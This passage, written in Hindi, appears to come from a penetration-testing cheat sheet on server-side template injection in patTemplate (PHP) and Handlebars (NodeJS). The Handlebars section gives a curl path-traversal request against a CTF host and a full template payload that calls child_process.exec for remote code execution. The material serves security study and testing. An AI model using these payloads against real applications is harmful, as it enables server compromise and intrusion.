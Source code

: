 ### patTemplate (PHP)

> [patTemplate](https://github.com/wernerwa/pat-template) एक नॉन-कंपाइलिंग PHP टेम्पलेटिंग इंजन है, जो एक दस्तावेज़ को विभिन्न भागों में विभाजित करने के लिए XML टैग का उपयोग करता है
```xml
<patTemplate:tmpl name="page">
This is the main page.
<patTemplate:tmpl name="foo">
It contains another template.
</patTemplate:tmpl>
<patTemplate:tmpl name="hello">
Hello {NAME}.<br/>
</patTemplate:tmpl>
</patTemplate:tmpl>
```
**अधिक जानकारी**

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate)

### हैंडलबार्स (NodeJS)

पाथ ट्रैवर्सल (अधिक जानकारी [यहाँ](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/) पर)।
```bash
curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://ctf.shoebpatel.com:9090/'
```
* \= त्रुटि
* ${7\*7} = ${7\*7}
* कुछ नहीं
```java
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}

URLencoded:
```